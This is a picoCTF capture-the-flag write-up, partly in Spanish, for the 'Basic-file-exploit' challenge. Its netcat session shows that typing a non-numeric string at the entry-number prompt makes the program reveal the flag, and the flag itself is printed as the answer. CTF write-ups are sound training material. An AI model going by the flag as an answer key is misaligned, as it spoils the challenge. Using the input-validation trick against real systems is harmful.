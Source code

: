 # -   Basic-file-exploit
## Descripcipción
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!Connect to the program with netcat:`$ nc saturn.picoctf.net 50959`The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/141/program-redacted.c).
## Pistas
- Try passing in things the program doesn't expect. Like a string instead of a number.
## Solucion
```
┌──(kali㉿kali)-[~/Documents/binary/basic]
└─$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
2
2No data yet
1
21
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
No data given.
Please put in a valid number
3
3
                                                                            
┌──(kali㉿kali)-[~/Documents/binary/basic]
└─$ nc saturn.picoctf.net 50959



┌──(kali㉿kali)-[~/Documents/binary/basic]
└─$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
2
2No data yet
1
21
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
No data given.
Please put in a valid number
1
1
Please enter your data:
hello
hello
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
hello
hello
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}

```
## Bandera
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
## Notas adicionales
## Referencias
https://www.youtube.com/watch?v=JUrp4lL22JA